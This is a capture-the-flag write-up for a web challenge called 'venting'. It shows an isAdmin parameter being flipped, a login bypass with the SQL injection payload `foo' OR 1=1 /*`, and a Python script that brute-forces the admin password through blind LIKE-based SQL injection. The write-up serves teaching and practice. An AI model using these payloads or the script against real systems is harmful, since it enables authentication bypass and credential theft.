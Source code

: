 # venting

Categories: Web

Description:
> BHmmmm. This website is kinda sus... Can you become the imposter and vent towards the flag?

## Takeaways

Simple blind SQL injection. Content-based SQLi or time-based SQLi works.

## Solution

Upon vising the website we are presented with the following page.

![index.png](writeup-resources/index.png)

So, let's send a request and see what happens.

![requests.png](writeup-resources/requests.png)

As we can see, several requests are sent out. The 1`GET /inthevents` stands out as it contains an `isAdmin` parameter. So we change it to `true` and repeat the request.

![inthevents.png](writeup-resources/inthevents.png)


We follow this secret location and we are presented with a pretty simple admin-login page.

```html
<!DOCTYPE html>
<html>
<head>
    <link rel="stylesheet" href="static/css/bootstrap.min.css">
    <title>Imposter!</title>
</head>
<!-- 
Okay sqlite is pretty cool but idk if i trust it
i learned this regex thing to stop bad people from logging in
but if that fails, i still have one card up my sleeve >:)
-->
<body>
    <h1> You vented to admin! Now login with your credentials "admin"
    </h1>
    <h2>
        <form action="/fff5bf676ba8796f0c51033403b35311/login" method="POST">
            <label class="form-label mt-4" for="user">Username:</label>
            <input class="form-control" type="text" id="user" name="user"><br>
            <label class="form-label mt-4" for="pass">Password:</label>
            <input class="form-control" type="text" id="pass" name="pass"><br>
            <input class="form-control" type="submit" value="Login">
        </form> 
    </h2>
</body>
</html>
```

![admin-page.png](writeup-resources/admin-page.png)

The comment hints that this is SQL-lite and we should probably do an SQL injection attack. Upon entering `foo'` as `user` and `bar` as `pass`, we are immediately presented with an error:

`Error when executing statement -> near "bar": syntax error SELECT * from users WHERE username='foo'' AND Password = 'bar';`

So this is definitely vulnerable to SQLi. We try the most basic payload `foo' OR 1=1 -- - `. But the error message now is:

`Error when executing statement -> near "ඞඞ": syntax error SELECT * from users WHERE username='foo' OR 1=1 ඞඞ ඞ ' AND Password = 'bar';`

With some more testing, we figure out that the application replaces `--` (comment) with `ඞඞ`. So, next I tried leaving an open comment to see what happens: `foo' OR 1=1 /*`. We successfully bypass the login as the rest of the query got commented away:

`If you're getting this you're not me. You'll never log in! ALSO I DIDNT HIDE ANYTHING IN MY PASSWORD SO DONT TRY!`

From the response, it seems that the password is in the flag. So we have to leak it. This is also a bling SQLi as the application does not respond with the query's data. Remember that the original query is `SELECT * from users WHERE username='foo' AND Password = 'bar';`. We will comment out the password part and replace it with a content-based blind SQLi query. So, the eventual query will look like:

`SELECT * from users WHERE username='admin' AND Password LIKE 'UMASS{XXX%' /*...`

where we will brute-force the password byte-by-byte.

```python
import requests
import urllib3
import string
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)


proxyDict = {
    "http"  : 'http://127.0.0.1:8080',
    "https" : 'http://127.0.0.1:8080',
}

password = 'UMASS{'
alphabet = string.digits + string.ascii_letters
while(not password.endswith('}')):
    print(password)

    found = False # If no character is found in the alphabet, append the closing '}' 
    for ch in alphabet:
        new_password = password + ch
        r = requests.post('http://127.0.0.1:4446/fff5bf676ba8796f0c51033403b35311/login',
            data = {
                'user' : f"admin' AND password LIKE '{new_password}%' /*",
                'pass' : ""
            },
            proxies=proxyDict,
            verify=False,
            allow_redirects=False
        )
        assert(r.status_code == 200)
        if r.text == "If you're getting this you're not me. You'll never log in! ALSO I DIDNT HIDE ANYTHING IN MY PASSWORD SO DONT TRY!":
            password = new_password
            found = True
            break

    if found == False:
        password += '}'

print(password) # UMASS{7h35u55y1mp0573rcr4ck57h3c0d3}
```

So the flag is `UMASS{7h35u55y1mp0573rcr4ck57h3c0d3}`.
